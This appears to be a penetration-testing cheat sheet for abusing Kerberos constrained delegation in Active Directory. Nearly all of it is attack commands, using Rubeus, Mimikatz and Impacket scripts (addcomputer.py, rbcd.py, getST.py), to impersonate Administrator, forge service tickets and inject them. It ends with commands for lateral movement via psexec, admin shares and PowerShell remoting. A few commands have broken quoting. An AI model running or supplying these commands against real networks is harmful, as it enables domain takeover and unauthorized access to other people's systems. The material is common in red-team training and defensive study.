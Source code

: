 # Constrained Delegation

## Tools: Rubeus , rbcd.py , addcomputer.py , getST.py

### Object: msDS-AllowedToDelegateTo

### UACs TRUST_TO_AUTH_FOR_DELEGATION (With protocol transition (any)) / TRUSTED_FOR_DELEGATION (Without protocol transition (kerberos only))

# 1) Without protocol transition (kerberos only)  msDS-AllowedToDelegateTo TRUSTED_FOR_DELEGATION

Any service can be specified on the target since it is not correctly checked. All the Rubeus commands can be performed with kekeo aswell.

Windows

### 1) Request a ticket for multiple services on the target, for another user (S4U)

    .\Rubeus.exe s4u /user:user1 /rc4:<hash> /impersonateuser:Administrator /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt

### 2) If we have a session as the user, we can just run .\Rubeus.exe tgtdeleg /nowrap to get the TGT in Base64, then run:

    .\Rubeus.exe s4u /ticket:doIFCDC[SNIP]E9DQUw= /impersonateuser:Administrator /domain:domain.local /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt

### 3) Inject the ticket 

    Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'

Linux

    addcomputer.py -computer-name 'RBCD_COM$' -computer-pass 'RBCD_COM_PASSWORD' -dc-ip DC -DOMAIN/USER:PASSWORD' (RBCD)

    rbcd.py -delegate-from 'RBCD_COM$' -delegate-to 'CONSTRAINED$' -dc-ip -'DC' -action 'write' -hashes 'HASH DOMAIN/CONSTRAINED$ (For Self RBCD, Skip the 1st step entirely)

    getST.py -self -impersonate "administrator" -dc-ip IP DOMAIN/RBCD_COM$':'RBCD_COM_PASSWORD'

    getST.py -spn host/CONSTRAINED -hashes 'HASH' 'DOMAIN/COMPUTER_ACCOUNT' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

    getST.py -spn CONSTRAINED_SPN/TARGET -hashes 'HASH' 'DOMAIN/CONSTRAINED$' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

#### This technique gives a Kerberos TGS (Service ticket)

# 2) (With protocol transition (any)) msDS-AllowedToDelegateTo TRUST_TO_AUTH_FOR_DELEGATION

In this case, it is not possible to use S4U2self to obtain a forwardable ST for a specific user. This restriction can be bypassed with an RBCD attack.

    Rubeus hash /password:PASSWORD

## OR 

    Rubeus asktgt /user:USER /domain:DOMAIN /aes256:AES_256_HASH

    Rubeus s4u /ticket:TICKET /impersonateuser:ADMIN_USER /msdsspn:SPN_CONTRAINED /altservice:CIFS /ptt (Choose the altservice below to use with rubeus)

### Altservice:

#### 1) HOST

    psexec \\\TARGET CMD

#### 2) CIFS

    dir \\TARGET\c$

#### 3) HTTP

    Enter-Pssession -computername TARGET

## OR 

    Invoke-Command TARGET -Scriptblock {COMMAND}

#### 4) LDAP (No interactions)

### This attack gives a Kerberos TGS (Service Ticket)
